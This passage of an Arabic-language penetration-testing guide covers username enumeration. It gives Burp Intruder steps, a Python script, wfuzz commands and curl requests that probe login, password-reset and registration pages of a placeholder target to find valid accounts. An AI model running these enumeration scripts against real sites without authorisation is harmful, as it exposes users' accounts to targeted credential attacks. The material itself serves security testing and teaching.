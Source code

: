   - فشل: ردود متشابهة لكل الأسماء، يعني الموقع محمي.
- **الأدوات**:
  - **Burp Suite Intruder**:
    - اعترض طلب تسجيل الدخول.
    - حدد حقل `username` كـ Payload Position.
    - حمل ملف `usernames.txt` وابدأ الهجوم.
    - حلل الردود في عمود Response Length أو ابحث عن كلمات زي "invalid" أو "not found".
  - **Python Script**:
    ```python
    import requests

    url = "https://target.com/login"
    usernames = ["randomuser123", "admin", "user", "test"]

    for username in usernames:
        response = requests.post(url, data={"username": username, "password": "test"})
        print(f"Username: {username}, Response Length: {len(response.text)}, Text: {response.text[:50]}")
    ```
  - **wfuzz** (أداة أتمتة):
    ```bash
    wfuzz -c -z file,usernames.txt --hc 404 -d "username=FUZZ&password=test" https://target.com/login
    ```
    - `-z file,usernames.txt`: استخدم قائمة أسماء المستخدمين.
    - `--hc 404`: إخفاء الردود بكود 404.
    - `-d`: البيانات المرسلة في الطلب.
- **الأوامر**:
  - Python: `python enumerate_usernames.py` (احفظ السكربت فوق).
  - wfuzz:
    ```bash
    wfuzz -c -z file,usernames.txt --hc 404 -d "username=FUZZ&password=test" https://target.com/login
    ```
  - Burp Intruder: استخدم قائمة `usernames.txt` وحلل الردود.

---

### **ملخص شامل لكل المحاولات والأوامر**

هنا قائمة بكل المحاولات مع الأوامر والأدوات الخاصة بيها لاختبار Username Enumeration:

1. **اختبار يدوي لصفحة تسجيل الدخول**:
   - **البيانات**: أسماء عشوائية (`randomuser123`) ومتوقعة (`admin`، `user`).
   - **الأداة**: متصفح، DevTools.
   - **الأمر**: مفيش؛ أدخل يدويًا وقارن رسايل الخطأ.

2. **اختبار صفحة إعادة تعيين كلمة المرور**:
   - **البيانات**: إيميلات (`random@example.com`، `admin@example.com`)، أسماء (`admin`، `test`).
   - **الأدوات**: متصفح، Burp Suite، cURL.
   - **الأوامر**:
     ```bash
     curl -X POST -d "email=random@example.com" https://target.com/forgot-password
     curl -X POST -d "email=admin@example.com" https://target.com/forgot-password
     ```

3. **اختبار صفحة التسجيل**:
   - **البيانات**: إيميلات (`random@example.com`، `admin@example.com`)، أسماء (`admin`، `randomuser123`).
   - **الأدوات**: متصفح، DevTools، Burp Suite.
   - **الأوامر**:
     ```bash
     curl -X POST -d "email=random@example.com&username=randomuser123" https://target.com/register
     curl -X POST -d "email=admin@example.com&username=admin" https://target.com/register
     ```
